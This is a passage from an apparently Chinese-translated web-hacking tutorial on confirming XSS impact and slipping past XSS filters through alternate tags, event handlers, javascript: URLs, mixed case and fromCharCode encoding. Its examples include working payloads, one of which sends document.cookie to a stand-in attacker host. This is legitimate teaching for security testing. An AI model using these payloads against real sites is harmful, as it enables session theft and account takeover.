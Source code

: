 最后，尽管黑客通常手动发现新的 XSS 向量，但一种自动测试网站是否存在已知 XSS 向量的好方法是通过模糊测试（fuzzing）。我们将在第二十五章讨论模糊测试和自动化漏洞发现。

### 步骤 3：确认影响

在目标页面检查您的有效载荷。如果您使用的是 alert 函数，页面上是否生成了弹出框？如果您使用的是`location`有效载荷，浏览器是否将您重定向到外部网站？

请注意，网站也可能使用用户输入构建除下一个返回的网页之外的内容。您的输入可能会出现在未来的网页、电子邮件或文件门户中。提交有效载荷和用户输入呈现之间也可能会有时间延迟。这种情况在日志文件和分析页面中很常见。如果您正在针对这些页面，您的有效载荷可能直到稍后或在另一个用户账户下执行。而某些 XSS 有效载荷只有在特定上下文中才能执行，比如当管理员登录时，或者当用户主动点击或悬停在某些 HTML 元素上时。通过浏览必要的页面并执行这些操作来确认 XSS 有效载荷的影响。

## 绕过 XSS 保护

大多数应用程序现在在其输入字段中实现了一些 XSS 防护。通常，它们会使用黑名单来过滤掉可能表明 XSS 的危险表达式。以下是绕过这种类型保护的一些策略。

### 替代的 JavaScript 语法

通常，应用程序会对用户输入中的`<script>`标签进行消毒。如果是这种情况，尝试执行不使用`<script>`标签的 XSS。例如，请记住，在某些情况下，您可以指定 JavaScript 在其他类型的标签中运行。当您尝试构造 XSS 有效载荷时，您还可以尝试将代码插入到 HTML 标签名称或属性中。假设用户输入被传递到 HTML 图像标签中，如下所示：

```
<img src="`USER_INPUT`">
```

与其关闭图片标签并插入脚本标签，像这样

```
<img src="**/><script>alert('XSS by Vickie');</script>**"/>
```

您可以将 JavaScript 代码直接作为属性插入到当前标签中：

```
<img src="**123" onerror="alert('XSS by Vickie');**"/>
```

另一种不使用`<script>`标签注入代码的方法是使用前面提到的特殊 URL 方案。此代码片段将创建一个点击我！的链接，点击后将生成一个弹出框：

```
<a href="**javascript:alert('XSS by Vickie')>Click me!</a>**"
```

### 大小写和编码

你还可以混合不同的编码和大小写来迷惑 XSS 过滤器。例如，如果过滤器只过滤字符串`"script"`，你可以将有效负载中的某些字母大写。由于浏览器通常会宽松解析 HTML 代码，并允许像大小写这种小的语法问题，这不会影响`<script>`标签的解析：

```
<scrIPT>location='http://attacker_server_ip/c='+document.cookie;</scrIPT>
```

如果应用程序过滤了特殊的 HTML 字符，如单引号和双引号，你就不能直接将任何字符串写入 XSS 有效负载。但你可以尝试使用 JavaScript 的`fromCharCode()`函数，该函数将数字代码映射到相应的 ASCII 字符，从而创建你需要的字符串。例如，这段代码等同于字符串`"http://attacker_server_ip/?c="`：

```
String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107,
101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61)
```

这意味着你可以构造没有引号的 XSS 有效负载，像这样：
